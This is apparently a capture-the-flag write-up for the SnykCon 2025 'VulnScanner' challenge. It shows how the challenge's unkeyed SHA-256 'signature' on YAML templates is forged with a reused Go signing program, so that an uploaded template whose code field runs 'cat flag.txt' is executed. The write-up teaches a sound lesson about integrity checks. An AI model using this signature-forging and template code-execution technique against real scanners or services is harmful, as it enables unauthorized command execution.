 # VulnScanner
![image](https://github.com/user-attachments/assets/afd46d3d-87bc-4772-8d00-6716cdc3b31d)

Attachment: [challenge.zip](https://github.com/LazyTitan33/CTF-Writeups/raw/refs/heads/main/SnykCon2025/attachments/vulnscanner.zip)

## Writeup

The website is talking about YAML templates:  

![image](https://github.com/user-attachments/assets/900fca58-4755-444b-8255-ec414f668eef)

It even gives an example with a template that runs code:  

![image](https://github.com/user-attachments/assets/a499b261-7ffa-49e1-b762-2b250ebf20bd)

A template list is provided:  

![image](https://github.com/user-attachments/assets/51907195-fade-4b27-909e-b247fc3ad9e2)

All of the provided examples are signed with a known digest. This is the relevant part of the source code which signs the templates:  

```golang
package main

import (
        "crypto/sha256"
        "errors"
        "fmt"
        "io/ioutil"
        "os"
        "regexp"
        "strings"

        "gopkg.in/yaml.v3"
)
// SignTemplate signs the YAML content and returns the signed template and digest.
func SignTemplate(content string) (string, string, error) {
        normalizedContent := NormalizeContent(content)
        hash := sha256.Sum256([]byte(normalizedContent))
        hexHash := fmt.Sprintf("%x", hash)
        signedTemplate := fmt.Sprintf("%s\n# digest: %s\n", content, hexHash)
        return signedTemplate, hexHash, nil
}
```

It also uses another function to normalize content:  

```golang
// NormalizeContent normalizes the YAML content.
func NormalizeContent(content string) string {
        var yamlContent interface{}
        err := yaml.Unmarshal([]byte(content), &yamlContent)
        if err != nil {
                return content
        }

        normalizedContent, err := yaml.Marshal(yamlContent)
        if err != nil {
                return content
        }
        normalizedContentStr := strings.TrimSpace(string(normalizedContent))
        return normalizedContentStr
}
```

I can reuse this code and add a function to pass a template file as an argument in order to sign it:  

```golang
package main

import (
	"crypto/sha256"
	"fmt"
	"io/ioutil"
	"os"
	"strings"

	"gopkg.in/yaml.v3"
)
// SignTemplate signs the YAML content and returns the signed template and digest.
func SignTemplate(content string) (string, string, error) {
	normalizedContent := NormalizeContent(content)
	hash := sha256.Sum256([]byte(normalizedContent))
	hexHash := fmt.Sprintf("%x", hash)
	signedTemplate := fmt.Sprintf("%s\n# digest: %s\n", content, hexHash)
	return signedTemplate, hexHash, nil
}

// NormalizeContent normalizes the YAML content.
func NormalizeContent(content string) string {
	var yamlContent interface{}
	err := yaml.Unmarshal([]byte(content), &yamlContent)
	if err != nil {
		return content
	}

	normalizedContent, err := yaml.Marshal(yamlContent)
	if err != nil {
		return content
	}
	normalizedContentStr := strings.TrimSpace(string(normalizedContent))
		return normalizedContentStr
	}

func main() {
	if len(os.Args) < 2 {
		fmt.Println("Usage: go run main.go <template_file>")
		return
	}

	templateFile := os.Args[1]
	content, err := ioutil.ReadFile(templateFile)
	if err != nil {
		fmt.Printf("Error reading file: %s\n", err)
		return
	}

	signedTemplate, _, err := SignTemplate(string(content))
	if err != nil {
		fmt.Printf("Error signing template: %s\n", err)
		return
	}

// fmt.Println("Signed Template:")
	fmt.Println(signedTemplate)
}
```

I create a simple template to read the flag:  

```yaml
name: Code Execution Test
description: A template for testing code execution within the template.
type: http
requests:
  - method: GET
    path:
      - "/test"
    matchers:
      - type: status
        status:
          - 200
code: cat flag.txt
```
I then create the golang project, install the dependencies and run the code to create a signed template:  

```bash
go mod init yaml-signer
go get gopkg.in/yaml.v3
go run main.go template.yaml > signed_template.yaml
```
I upload my signed template and get the flag:  

![image](https://github.com/user-attachments/assets/6941be96-076e-489e-9f21-9d79fc3a60dc)

flag{e800eecf32271d760b27201eef192ead}


